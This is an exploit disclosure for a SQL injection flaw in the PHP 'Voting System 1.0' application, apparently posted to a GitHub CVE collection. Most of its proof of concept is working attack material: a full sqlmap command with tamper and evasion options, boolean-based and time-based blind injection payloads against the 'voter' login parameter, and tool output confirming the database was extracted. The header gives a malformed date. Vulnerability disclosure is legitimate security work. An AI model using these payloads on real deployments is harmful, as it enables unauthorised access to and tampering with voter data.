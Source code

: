 # Voting_System-SQL_Injection-2
+ **Exploit Title:** Voting_System-SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-

## References: 

## Description:
Voting System 1.0 allows SQL Injection via parameter 'voter' in "/votesystem/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the voters login page: "http://localhost/votesystem/"
+ Fill the voter id and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'voter' parameter to dump the database. 
```
sqlmap -r r.txt -p voter --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: voter (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: voter=11111' OR NOT 1116=1116-- lQWF&password=pass&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: voter=11111' AND (SELECT 4895 FROM (SELECT(SLEEP(5)))tJOZ)-- AnqV&password=pass&login=
---
[18:59:39] [INFO] testing MySQL
[18:59:39] [INFO] confirming MySQL
[18:59:39] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:59:39] [INFO] fetching current database
[18:59:39] [INFO] resumed: votesystem
current database: 'votesystem'
```

+ current database: `votesystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/c0550210-c182-4df0-a091-73366fbaa1f2)
